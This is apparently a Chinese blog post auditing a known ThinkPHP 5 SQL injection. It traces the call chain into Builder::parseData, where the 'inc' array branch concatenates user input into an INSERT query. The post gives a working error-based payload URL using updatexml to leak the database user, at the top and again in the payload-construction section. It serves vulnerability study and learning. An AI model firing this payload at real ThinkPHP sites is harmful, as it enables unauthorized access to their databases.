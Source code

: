 # ThinkPHP5之SQLI审计分析（一）

**Time：8-31**

**影响版本：5.0.13<=ThinkPHP<=5.0.15、 5.1.0<=ThinkPHP<=5.1.5**

**Payload：**

```
/public/index.php/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
```

这是一篇由已知漏洞寻找利用过程的文章，跟着**[参考链接](https://github.com/hongriSec/PHP-Audit-Labs/blob/master/Part2/ThinkPHP5/ThinkPHP5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B9%8BSQL%E6%B3%A8%E5%85%A51.md)**学习分析，以下是收获记录。

---

### 0x00 测试代码做了什么？

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()->get('username/a');
        db('users')->insert(['username' => $username]);
        return 'Update success';
    }
}
```

index控制器是默认的TP框架程序的入口，该测试代码在index控制器下新建了一个index方法（实际上本来的index方法是tp的欢迎页面，这里是覆盖替换掉原来的）。逐行来看该测试代码：获取`get`请求的`username`参数->进行数据库的`insert`操作->输出`Update success`。

其中，`username/a`不明白是什么意思，就跟进`get`方法去看一下它怎么处理的：

**thinkphp/library/think/Request.php**

![image-20210831141218443](ThinkPHP5之SQLI审计分析_images/image-20210831141218443.png)

**第676行**可以看到`$name`允许是一个数组，但是测试代码中传入的是`username/a`字符串。**674行**以`GET`方式接受的数据最后进入`input`方法，接着看下做了如何处理：

![image-20210831142527124](ThinkPHP5之SQLI审计分析_images/image-20210831142527124.png)

这里看到将`$name`参数以`/`分割为了`$name`和`$type`,而`$type`接下来被用到的地方是强制类型转换：

![image-20210831142728246](ThinkPHP5之SQLI审计分析_images/image-20210831142728246.png)

到这里就知道了`a`是一种修饰符，查看[开发手册](https://www.kancloud.cn/manual/thinkphp5/118044)得知所有的定义好的修饰符。

![image-20210831142915046](ThinkPHP5之SQLI审计分析_images/image-20210831142915046.png)

同样的下断点看也可以证明`$username`最后其实是一个数组：（并不是因为payload是数组形式，而是由/a修饰符决定的）

![image-20210831144306567](ThinkPHP5之SQLI审计分析_images/image-20210831144306567.png)

然后接下来就进入到执行数据库插入操作的`insert`方法了。（**9行**这条代码的意思是向users表的username字段插入$username）

### 0x01 调用链分析

现在已知`$username`是一个数组，传入`insert`方法。跟进`insert`跳到：

**thinkphp/library/think/db/Query.php**

![image-20210831145058961](ThinkPHP5之SQLI审计分析_images/image-20210831145058961.png)

发现其内又调用了`$this->builder->insert`方法，且**注释**是生成SQL语句。文件内搜索看看`builder`是如何定义的：

![image-20210831151249888](ThinkPHP5之SQLI审计分析_images/image-20210831151249888.png)

为了方便，直接在**130行**下断点，得到了`$class`的值：（这里可以随便传个参数比如username=1进去，因为主要是为了知道调用的哪里）

![image-20210831151553320](ThinkPHP5之SQLI审计分析_images/image-20210831151553320.png)

所以，`$this->builder`实际上是一个`Mysql`类的对象，而`Mysql`类**(thinkphp/library/think/db/builder/Mysql.php)**是继承于`Builder`类的，且`Mysql`类里面并没有实现`insert`方法，所以最终调用的还是`Builder`类的`insert`方法:

**thinkphp/library/think/db/Builder.php**

![image-20210831151949586](ThinkPHP5之SQLI审计分析_images/image-20210831151949586.png)

经过上述跟进代码分析，最终得知，入口调用的`insert`方法最终调用的实际上是调用的`Builder->insert()`方法来生成SQL语句。接下来应该由内向外分析看看有没有什么有效的过滤措施。

### 0x02 分析最内层调用的处理

分析这个*生成SQL语句*（之前有个注释）的方法具体做了什么，跟进它的`parseData`方法：（**86行**）

```php
	protected function parseData($data, $options)
    {
        if (empty($data)) {
            return [];
        }

        // 获取绑定信息
        $bind = $this->query->getFieldsBind($options['table']);
        if ('*' == $options['field']) {
            $fields = array_keys($bind);
        } else {
            $fields = $options['field'];
        }

        $result = [];
        foreach ($data as $key => $val) {
            $item = $this->parseKey($key, $options);
            if (is_object($val) && method_exists($val, '__toString')) {
                // 对象数据写入
                $val = $val->__toString();
            }
            if (false === strpos($key, '.') && !in_array($key, $fields, true)) {
                if ($options['strict']) {
                    throw new Exception('fields not exists:[' . $key . ']');
                }
            } elseif (is_null($val)) {
                $result[$item] = 'NULL';
            } elseif (is_array($val) && !empty($val)) {
                switch ($val[0]) {
                    case 'exp':
                        $result[$item] = $val[1];
                        break;
                    case 'inc':
                        $result[$item] = $this->parseKey($val[1]) . '+' . floatval($val[2]);
                        break;
                    case 'dec':
                        $result[$item] = $this->parseKey($val[1]) . '-' . floatval($val[2]);
                        break;
                }
            } elseif (is_scalar($val)) {
                // 过滤非标量数据
                if (0 === strpos($val, ':') && $this->query->isBind(substr($val, 1))) {
                    $result[$item] = $val;
                } else {
                    $key = str_replace('.', '_', $key);
                    $this->query->bind('data__' . $key, $val, isset($bind[$key]) ? $bind[$key] : PDO::PARAM_STR);
                    $result[$item] = ':data__' . $key;
                }
            }
        }
        return $result;
    }
```

这个函数最后return了`$result`变量，那么我们就看看函数体内是怎样处理`$result`变量的：

①首先，这个函数的第一个参数是`$data`，来源于最开始`Query.php`中`insert`方法的2084行:

![image-20210831153935999](ThinkPHP5之SQLI审计分析_images/image-20210831153935999.png)

进行了一个数组合并操作把合并的结果再赋给`$data`，那么合并后的`$data`也是一个数组，且有一个键的键名为username（因为`$data`本来是`['username' =>$username]`，在入口的**第9行**）。

②然后，这个函数在**100行**初始化了`$result`变量，然后**101行**用foreach分离`$data`为`$key`和`$val`，`$key`变成了`$item`:

![image-20210831154805124](ThinkPHP5之SQLI审计分析_images/image-20210831154805124.png)

此时的`$val`是可控的、`get`方式传入的、等价于`$username`。**第113行**判断如果`$val`是个数组，进入switch分支

![image-20210831155545442](ThinkPHP5之SQLI审计分析_images/image-20210831155545442.png)

`$val[0]`也就是payload中的`username[0]`根据不同的值进入不同的三个分支，但是可以看到每个分支的处理都是直接拼接`$val[1]`和`$val[2]` 赋给 `$result[$item]`，也就是`$result['username']`，唯一调用的`parseKey`并没有什么作用：

![image-20210831160018355](ThinkPHP5之SQLI审计分析_images/image-20210831160018355.png)

③最后，返回`$result` (也就是赋值给`Query.php`中`insert`方法2084行的`$data`)，至此`parseData`的主要功能就分析的差不多了。

接着看`Builder`类的`insert`方法在调用了`parseData`之后又干了什么：

![image-20210831160452527](ThinkPHP5之SQLI审计分析_images/image-20210831160452527.png)

从`$data`中取出键值分别赋值给代表字段名和字段值的变量，简单的替换**29-33行**定义的SQL语句模型，返回生成好的SQL语句。

![image-20210831162144504](ThinkPHP5之SQLI审计分析_images/image-20210831162144504.png)

### 0x03 分析上一层调用的处理

![image-20210831162649927](ThinkPHP5之SQLI审计分析_images/image-20210831162649927.png)

之后还有两处调用函数，即`getBind()`和`getRealSql()`但是跟进去看了下都没有任何数据清洗，仅仅是数据处理的一些解析操作。然后就到了`execute()`去执行SQL语句了。至此，整个处理流程基本上就分析完了，满足SQL注入漏洞的前提条件：①参数用户可控②参数直接拼接到SQL语句中，无任何有效过滤。

### 0x04 Payload构造

漏洞的利用点还是在最内层调用的`parseData`方法中，根据刚才的分析已经知道的$val实际上就是传入的username，那么`$val[0]`、`$val[1]`、`$val[2]`都是可控的，只要传入满足条件的值即可，因为是insert操作，所以选择用报错函数进行注入：

构造`username[0]=inc`，进入inc分支。

构造`username[1]=updatexml(1,concat(0x7e,user(),0x7e),1)`，实际的报错语句。

构造`username[2]=1`，只是为了补齐数组元素个数。

再加上index控制器的index方法的访问路径`/public/index.php/index/index/`

最后连起来就是

```
/public/index.php/index/index/?username[0]=inc&username[1]=updatexml(1,concat(0x7e,user(),0x7e),1)&username[2]=1
```

本意是代码审计，就不考虑再如何利用了。